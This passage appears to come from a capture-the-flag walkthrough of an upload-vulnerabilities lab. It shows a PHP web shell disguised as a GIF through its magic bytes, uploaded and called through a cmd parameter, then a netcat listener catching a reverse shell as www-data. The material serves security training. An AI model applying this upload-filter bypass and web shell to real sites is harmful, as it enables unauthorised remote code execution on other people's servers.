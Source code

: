 <br>

If we run the file command again to see the file type, it now says it's GIF type.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ file shell.php
shell.php: GIF image data, version 87a, 28735 x 28776
```

![alt text](image-19.png#center)

<br>

Let's upload the file now and instead of navigating to `/graphics` (because directory indexing is turned off for this website), we are going to access the shell directly using its URI like the following:

`http://magic.uploadvulns.thm/graphics/shell.php?cmd=whoami;`

As you could see from the below, I was running the netcat server to capture the reverse shell and eventually got the flag.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.67.243] from (UNKNOWN) [10.10.103.254] 38598
Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:35:03 up  2:11,  0 users,  load average: 0.00, 0.02, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
```
